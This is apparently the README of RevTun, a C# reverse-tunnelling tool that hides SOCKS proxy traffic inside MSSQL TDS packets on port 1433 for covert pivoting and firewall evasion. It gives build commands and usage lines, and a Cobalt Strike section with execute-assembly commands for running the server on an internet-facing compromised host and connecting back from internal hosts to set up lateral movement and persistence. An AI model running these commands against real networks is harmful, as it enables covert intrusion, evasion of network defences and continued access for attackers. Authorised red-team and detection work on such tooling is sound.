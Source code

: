 # RevTun - MSSQL Reverse Tunnel

RevTun is a reverse tunneling tool that disguises network traffic as legitimate MSSQL database communications using the Tabular Data Stream (TDS) protocol. This allows for covert network pivoting and firewall evasion by leveraging the commonly trusted MSSQL port 1433.

## How It Works

RevTun operates using a client-server architecture:

1. **Server Component**: Listens on port 1433 (standard MSSQL port) and responds to TDS protocol handshakes
2. **Client Component**: Connects to the server using authentic MSSQL TDS protocol packets
3. **Proxy Activation**: When a client connects, the server automatically activates a SOCKS proxy (default port 1080)
4. **Traffic Tunneling**: All proxy traffic is encapsulated within TDS packets, appearing as legitimate database queries

The result is a fully functional SOCKS proxy that operates through what appears to be normal MSSQL database traffic.

## Prerequisites

### C# Implementation (Primary)
- **.NET 8.0 or later** for cross-platform builds
- **.NET Framework 4.8** for Cobalt Strike compatibility
- No external dependencies required

## Building

### Quick Build (Multi-Platform)
Use the provided PowerShell script for automated builds:

```powershell
# Builds all targets: .NET Framework 4.8, Linux x64, Windows x64
.\build-multi.ps1
```

### Manual Builds

#### Cross-Platform Builds (.NET 8.0)
```bash
# Windows x64 (self-contained single file)
dotnet publish -c Release -f net8.0 -r win-x64 --self-contained true -p:PublishSingleFile=true

# Linux x64 (self-contained single file)
dotnet publish -c Release -f net8.0 -r linux-x64 --self-contained true -p:PublishSingleFile=true
```

#### Cobalt Strike Build (.NET Framework 4.8)
```bash
# Build for execute-assembly compatibility
dotnet build -c Release -f net48 -p:Platform=AnyCPU
```

## Usage

### Basic Server Setup
```bash
# C# Server (recommended)
./revtun server --port 1433 --proxy-port 1080 --verbose
```

### Client Connection
```bash
# Connect to remote server with encryption
./revtun client --host server.example.com --port 1433 --encrypt --verbose
```

## ⚔️ Cobalt Strike Integration

RevTun is optimized for red team operations and Cobalt Strike workflows.

### Deployment Commands

#### Server Deployment (External Host)
```bash
# Deploy server on internet-facing compromised host
execute-assembly revtun.exe server --port 1433 --proxy-port 1080 --require-encryption --verbose
```

#### Client Connection (Internal Host)
```bash
# Connect from internal network back to external server
execute-assembly revtun.exe client --host [external-server-ip] --port 1433 --encrypt
```

### Operational Workflow

1. **Deploy Server**: Use `execute-assembly` to deploy server on external compromised host
2. **Establish Tunnel**: Connect clients from internal networks using reverse connection
3. **Pivot & Lateral Movement**: Use SOCKS proxy for further network access
4. **Maintain Persistence**: TDS traffic blends with legitimate database communications
